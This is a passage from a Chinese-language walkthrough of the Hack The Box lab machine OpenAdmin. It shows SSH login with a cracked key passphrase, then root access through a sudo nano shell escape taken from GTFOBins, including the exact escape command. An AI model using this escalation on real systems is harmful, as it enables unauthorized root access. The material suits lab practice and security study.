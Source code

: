 ![image-20200924204440644]({{ site.url }}/assets/OpenAdmin_171.assets/image-20200924204440644.png)

得到密码，，改私钥600权限，登录ssh

`bloodninjas`

```bash
$ chmod 600 id_rsa
$ ssh -i id_rsa joanna@10.10.10.171
```



提权是一个gtfobins提权。

sudo -l

![image-20200924204729099]({{ site.url }}/assets/OpenAdmin_171.assets/image-20200924204729099.png)

https://gtfobins.github.io/gtfobins/nano/

注意目录不用漏打

```bash
joanna@openadmin:/bin$ sudo /bin/nano /opt/priv
```

nano弹出

Ctrl + r

![image-20200924205030561]({{ site.url }}/assets/OpenAdmin_171.assets/image-20200924205030561.png)

Ctrl + x

![image-20200924205048144]({{ site.url }}/assets/OpenAdmin_171.assets/image-20200924205048144.png)

```bash
reset; bash 1>&0 2>&0
```

![image-20200924205131201]({{ site.url }}/assets/OpenAdmin_171.assets/image-20200924205131201.png)

![image-20200924205232278]({{ site.url }}/assets/OpenAdmin_171.assets/image-20200924205232278.png)

kill！！！

![image-20200924205250920]({{ site.url }}/assets/OpenAdmin_171.assets/image-20200924205250920.png)



